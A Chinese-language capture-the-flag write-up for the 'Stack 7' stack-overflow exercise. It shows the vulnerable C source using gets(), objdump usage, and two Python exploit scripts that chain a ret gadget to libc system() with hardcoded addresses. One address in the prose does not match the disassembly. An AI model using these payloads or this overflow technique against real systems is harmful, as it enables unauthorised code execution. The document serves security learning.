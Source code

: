 # Stack 7

## （一） 题目：

```
   \#include &lt;stdlib.h&gt;
```

\#include &lt;unistd.h&gt;

\#include &lt;stdio.h&gt;

\#include &lt;string.h&gt;

char \*getpath\(\)

{

char buffer\[64\];

unsigned int ret;

printf\("input path please: "\); fflush\(stdout\);

gets\(buffer\);

ret = \_\_builtin\_return\_address\(0\);

if\(\(ret & 0xb0000000\) == 0xb0000000\) {

```
  printf\("bzzzt \(%p\)\n", ret\);

  \_exit\(1\);
```

}

printf\("got path %s\n", buffer\);

return strdup\(buffer\);

}

int main\(int argc, char \*\*argv\)

{

getpath\(\);

}

## （二）解题过程：

如图：![](/png/41.png)

思路：

1） 参照stack5 stack6的方法处理 栈溢出

2）调试coredump的方法

不同于stack6，本题限制返回地址不可以是库函数，比如不可是system\(\).这个限制仅仅限制在第一次返回时候，所以意味着，可以利用ROP方法，用一个gadget,后面可以正常跟shellcode. 使用了过滤， 所以不能使用堆栈以及环境变量以及libc库的地址来覆盖返回地址。

![](/png/42.png)

**objdump命令是Linux下的反汇编目标文件或者可执行文件的命令，它还有其他作用，下面以ELF格式可执行文件test为例详细介绍：**

objdump -f test  显示test的文件头信息

objdump -d test  反汇编test中的需要执行指令的那些section

objdump -D test  与-d类似，但反汇编test中的所有section

objdump -h test  显示test的Section Header信息

objdump -x test  显示test的全部Header信息

objdump -s test  除了显示test的全部Header信息，还显示他们对应的十六进制文件代码

输出到txt文件objdump -s test.so&gt;test.txt

同时可以用命nm,strace,gdb.

构造payload:

nop nop + ret + system\(\) +参数

8048617:    c3                       ret

![](/png/43.png)

76个nop+ ret地址+ system地址+ 环境变量地址

设置环境变量export TTE="whoami"

再利用通用的地址获取代码getaddress.c

![](/png/44.png)

现在所有的要素都有了。

\x90 \*76 + 0x8040617 +0xb7ecffb0 + 0xbfffff47

漏洞利用代码编写如下：

exploit.py

\#!/usr/bin/env python

offset = 76

nopsled = "\x90"\*offset

ret = "\x17\x06\x04\x08"

system = "\xb0\xff\xec\xb7"

argv\_addr = "\x47\xff\xff\xbf"

print nopsled + "FAKE" +  ret + system + "FAKE" + argv\_addr

执行后，会出现段错误。

修改代码如下：

\#!/usr/bin/env python



offset = 0x50

cmd = "whoami"

junk = "J" \* \(offset - len\(cmd\)\)

gadg\_ret = "\x17\x86\x04\x08"

ret1= "\xb0\xff\xec\xb7"

ret2 = "\xc0\x60\xec\xb7"

arg1 = "\x46\xff\xff\xbf"





payload = cmd + junk + gadg\_ret + ret1 + ret2 + arg1



print payload

~               

![](/png/45.png)

